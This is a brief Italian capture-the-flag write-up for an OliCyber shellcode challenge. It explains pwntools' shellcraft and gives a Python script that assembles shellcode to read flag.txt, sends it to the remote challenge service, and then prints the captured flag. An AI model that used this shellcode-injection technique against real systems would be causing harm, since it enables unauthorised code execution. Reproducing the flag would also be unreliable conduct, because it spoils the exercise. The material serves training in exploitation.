 > Pwntools permette di create shellcode on-the-fly. Grazie alla utility shellcraft.Possiamo anche trovare alcuni shellcode già pronti, per esempio shellcraft.amd64.linux.sh() ritorna il codice assembly necessario per aprire la shell /bin/sh. Poi possiamo assemblarlo con la funziona asm(). Il binario remoto di questa challenge eseguirà qualsiasi shellcode gli manderai, la flag si trova in flag. Puoi collegarti al servizio remoto con il comando: nc software-20.challs.olicyber.it 13003

```python
from pwn import *
from Crypto.Util.number import *

shell = asm(shellcraft.amd64.linux.cat("flag.txt"), arch='x86_64')
r = remote("software-20.challs.olicyber.it", 13003)

r.recvuntil(b"...")
r.sendline(b"a")
r.recvuntil(b": ")
r.sendline(str(len(shell)).encode())
r.recv(1000)
r.send(shell)
r.interactive()
```

**flag{c5745d7eea17b5ab}**